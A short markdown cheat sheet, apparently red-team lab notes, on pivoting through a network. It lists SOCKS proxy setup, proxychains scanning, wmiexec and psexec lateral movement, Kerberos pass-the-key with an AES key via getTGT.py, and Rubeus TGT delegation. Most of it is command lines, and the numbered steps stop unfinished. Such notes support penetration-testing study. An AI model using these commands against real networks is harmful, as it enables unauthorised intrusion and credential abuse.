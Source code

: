 # Pivoting Notes

**SOCKS**

start a SOCKS4a proxy, second is SOCKS5
```
socks 1080
socks 1080 socks5 disableNoAuth myUser myPassword enableLogging
```

**Linux Tools**

**proxychains**

```
sudo vim /etc/proxychains.conf
  socks4 127.0.0.1 9050
  socks5 127.0.0.1 1080 myUser myPassword
proxychains nmap -n -Pn -sT -p445,3389,4444,5985 10.10.122.10
proxychains wmiexec.py DEV/jking@10.10.122.30
```

**pivoting with kerberos**

```
proxychains getTGT.py -dc-ip 10.10.122.10 -aesKey 4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6 dev.cyberbotic.io/jking
export KRB5CCNAME=jking.ccache
proxychains psexec.py -dc-ip 10.10.122.10 -target-ip 10.10.122.30 -no-pass -k dev.cyberbotic.io/jking@web.dev.cyberbotic.io
```

using a TGT delegation trick to get a usable TGT for bfarmer from a non-elevated session
1. delegate TGT to get a TGT for a non-elevated session
2. 

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe tgtdeleg /nowrap
echo -en 'doIFzj[...snip...]MuSU8=' | base64 -d > bfarmer.kirbi
```
